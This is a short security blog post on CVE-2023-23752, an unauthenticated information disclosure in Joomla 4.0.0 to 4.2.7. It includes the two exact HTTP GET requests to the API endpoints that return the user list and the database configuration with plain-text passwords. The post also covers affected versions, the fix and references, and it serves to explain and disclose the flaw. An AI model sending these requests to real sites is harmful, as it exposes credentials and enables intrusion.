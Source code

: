 +++
author = "kiwiyumi"
date = "2024-02-03"
description = "Information disclosure in Joomla"
title = "Joomla 4.2.7 - CVE-2023-23752 - Information Disclosure"
tags = [
    "Web",
    "CVE",
    "CMS",
    "Joomla"
]
+++

<!--more-->

In today's article we're going to look at a vulnerability in a content management system (CMS) called Joomla. The flaw allows an unauthenticated attacker to list all the users in the application and collect system configuration information, such as username and database password.

## Description

The flaw consists of poor validation of access to the endpoints responsible for listing user and database information, being classified as a medium vulnerability by **NIST** (CVSS 3.x), however, in the security advisory issued by Joomla, they define this vulnerability as a potential critical impact.

## Affected versions

The versions affected by the vulnerability are: **4.0.0 <= 4.2.7**.

## Exploiting vulnerabilities

The exploitation of the vulnerability consists of two endpoints, the first being used to collect existing users in the application, while the other consists of system configuration information (database), below are the requests to the affected endpoints and their responses.

- **Collect user information:**

```http
GET /api/index.php/v1/users?public=true HTTP/1.1
Host: {{HOST}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8


```

![](/assets/images/joomla-infomation-disclosure/f0588149-75cb-4d3c-b6f6-0c6f1f781938.png)

- **Collect configuration information:**

```http
GET /api/index.php/v1/config/application?public=true HTTP/1.1
Host: {{HOST}}
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8


```

![](/assets/images/joomla-infomation-disclosure/7f91a6f8-2d92-46ae-9bed-9f64bf375db5.png)

Note that it was possible to collect sensitive information and passwords in plain text.

**Obs:** the first endpoint in question brings up all existing users, in my lab I only had the administrator registered.

## How to fix

Update the software to the latest version.

## References

- https://developer.joomla.org/security-centre/894-20230201-core-improper-access-check-in-webservice-endpoints.html
- https://nvd.nist.gov/vuln/detail/CVE-2023-23752